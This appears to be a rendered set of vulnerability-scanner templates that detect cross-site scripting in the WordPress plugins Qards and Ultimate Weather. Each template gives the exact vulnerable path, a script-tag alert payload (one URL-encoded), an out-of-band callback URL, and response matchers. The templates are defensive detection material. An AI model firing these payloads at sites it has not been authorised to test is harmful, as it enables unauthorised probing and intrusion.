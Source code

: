**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Qards - Cross-Site Scripting
## Description
- WordPress Qards through 2017-10-11 contains a cross-site scripting vulnerability via a remote document specified in the URL parameter to html2canvasproxy.php.
- severity - medium
- tags - wp-plugin,oast,wpscan,cve,cve2017,wordpress,ssrf,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/qards/html2canvasproxy.php?url=https://{{interactsh-url}}
### Matchers

**Type - word**
- part - interactsh_protocol
- words
    1. http

**Type - word**
- part - body
- words
    1. console.log

---
# Ultimate Weather Plugin \<= 1.0 - Cross-Site Scripting
## Description
- The ultimate-weather plugin 1.0 for WordPress contains a cross-site scripting vulnerability.
- severity - medium
- tags - cve,cve2014,wordpress,wp-plugin,xss,weather,wpscan,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/ultimate-weather-plugin/magpierss/scripts/magpie_debug.php?url=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers
